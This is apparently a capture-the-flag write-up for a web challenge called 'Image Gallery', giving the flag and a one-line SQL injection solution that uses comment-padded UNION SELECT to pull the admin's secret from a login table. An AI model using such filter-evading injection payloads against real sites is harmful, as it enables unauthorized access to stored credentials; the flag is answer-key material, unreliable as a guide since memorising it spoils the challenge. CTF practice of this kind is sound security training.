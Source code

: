 # Image Gallery

## Description

View your photo gallery using our super Secure image gallery. we offer free 1
terabyte of storage of high-Quality images, showcased in a personalized custom aLbum.

## Flag

nite{k33ping*up_w1th*+he_time5}

## Solution

```
'/*/UNION//SELECT//MAX(CASE//WHEN//username//is//"admin"//THEN//secret//END)//FROM//login_details/
```
